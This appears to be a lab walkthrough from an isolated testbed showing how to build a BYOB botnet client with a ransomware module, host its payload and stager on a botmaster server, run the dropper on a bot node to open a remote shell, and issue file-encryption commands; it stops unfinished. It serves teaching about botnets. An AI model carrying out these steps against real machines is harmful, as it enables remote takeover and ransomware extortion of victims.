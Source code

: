 ## Ransomware Attack
The data is encrypted through a ransomware by botmaster (`botmaster` in our case) and the files can only be seen if decrypted from bot nodes (`b1` in our case).

### Connection with client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 ransom
```
The output should look like this:

```shell


88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[>] Modules
        Adding modules...  -[-] can't add module: 'ransom' (does not exist)
(4 modules added to client)

[>] Imports
        Adding imports...-(32 imports from 4 modules)

[>] Payload
        Uploading payload...  -(hosting payload at: http://botmaster.infra:1338/clients/payloads/jIJ.py)

[>] Stager
        Uploading stager... -(hosting stager at: http://botmaster.infra:1338/clients/stagers/jIJ.py)

[>] Dropper
        Writing dropper...  (355 bytes written to /modules/clients/droppers/byob_jIJ.py)
        Compiling executable...
91 INFO: PyInstaller: 6.4.0, contrib hooks: 2024.1
91 INFO: Python: 3.9.2
.
.
.
19652 INFO: Appending PKG archive to custom ELF section in EXE
19714 INFO: Building EXE from EXE-00.toc completed successfully.
(22,541,192 bytes saved to file: /opt/byob/byob/dist/jIJ)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/jIJ b1.infra:
```

Lastly, startup the server
```shell
python3 -u server.py
```
The server should start and should start a prompt as follows:

```shell
88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[?]  Hint: show usage information with the 'help' command

[rishitsaiya @ /opt/byob/byob]>
```

Parallely, SSH to the b1 node from your XDC through different terminal
```shell
ssh b1
```
Execute the payload from here
```shell
./jIJ
```

At this point, the server should display a message like:
```shell
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

Connect with the bot node using
```shell
shell 0
```
You can verify the socket connection by typing `ls` at prompt in server to check.

#### Test Files Creation
For demo purposes I have made `test.txt`, `test_dir/` on `b1` node.

```shell
rishitsaiya@b1:~$ ls
jIJ test_dir test.txt

rishitsaiya@b1:~$ cd test_dir/
rishitsaiya@b1:~/test_dir$ ls
test.txt
rishitsaiya@b1:~/test_dir$ cat test.txt 
This is a test file.
```

#### Random Key Pair Generation
We are using the keys generated from CryptoTools [https://cryptotools.net/rsagen] with a 2048 key length.

Let us call the keys _pub_ & _priv_ for our case. 

A command should look like this
```
ransom encrypt test.txt MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...IDAQAB MIIEpQIBAAKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...+kCUsXHpgh8oE=
```

#### Entering ransom commands through byob
On botmaster node where the server is running, type the command:

```shell
[ 0 @ /home/rishitsaiya ]>ransom encrypt test.txt pub priv
```

It should look like this.

#### - To be Continued -
